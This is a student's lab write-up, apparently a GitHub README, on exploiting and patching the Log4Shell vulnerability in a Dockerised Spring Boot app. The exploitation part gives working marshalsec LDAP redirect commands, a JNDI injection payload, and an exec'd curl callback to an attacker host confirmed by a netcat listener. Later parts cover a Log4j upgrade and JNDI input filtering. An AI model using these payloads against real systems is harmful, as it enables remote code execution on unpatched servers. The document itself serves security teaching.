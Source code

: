 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
### HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

### LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- 
before: ![image](https://github.com/user-attachments/assets/70fa2a88-26a0-4531-af5c-fcfacad41415)

after: ![image](https://github.com/user-attachments/assets/cc7b0dfe-1943-4a31-a93d-7d90533207ea) 

- Rebuild and restart: the result is as follow: ![image](https://github.com/user-attachments/assets/e8071e43-2160-4ec0-a7a5-b6e1f92bf70f)

That confirms the patch is working; the pdated application successfully blocked the Log4Shell exploit attempt.
What Just Happened: we sent the malicious payload {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"} ; The updated LogController.java now includes input validation that detects and blocks JNDI injection attempts and the app returned: Blocked suspicious input!

Testing with normal input returns Logged: Hello World!

![image](https://github.com/user-attachments/assets/4204f54e-a58b-45e4-8ab9-7082524fbea8)

  


## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces: docker logs $(docker ps -qf "name=app") 2>&1 | grep jndi
![image](https://github.com/user-attachments/assets/e4351711-9a18-4c52-832a-02a0572a6bd1)

 This returned nothing, which is good sign, because we are currently running the patched app; it also means the patched application successfully blocked the malicious input and did not log or process the ${jndi:...} payload.


- Contain: Vulnerable container stopped
  If we were running the unpatched app, it would have been good to contain the vulnerable container by running: docker-compose down
  
- Eradicate: Patched container deployed; here we have to ensure that patched code is deployed. We did this on part2
  
- Recover: System restored with mitigation verified; this consists of restart and test with clean input: docker-compose up --build -d
This was also done in part2

---

## Conclusion and Lessons Learned

Working through the Log4Shell vulnerability really drove home some key points about building secure software. It's easy to forget about things like logging libraries (like Log4j), but they're definitely part of what attackers can target. As we saw, just one little piece of data that's not handled correctly can open the door for someone to run code remotely if the logging system has a flaw. This really shows why it's so important to keep all our software up to date and to know what the third-party tools we're using actually do.

Plus, it's clear that we absolutely have to check everything that comes into our applications, even if it's going to internal parts. The fixed version we looked at successfully stopped malicious attacks just by cleaning up the input it received, proof that even simple checks can make a big difference!

Lastly, tools like MITRE ATT&CK and D3FEND give us a great way to think about security throughout the whole lifecycle, from finding weaknesses to fixing them and responding if something happens. They're super helpful for anyone working in cybersecurity today. This whole exercise really reinforces that being proactive with our defenses, having a good understanding of how our systems are put together, and constantly keeping an eye on things are crucial for keeping our systems secure


---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

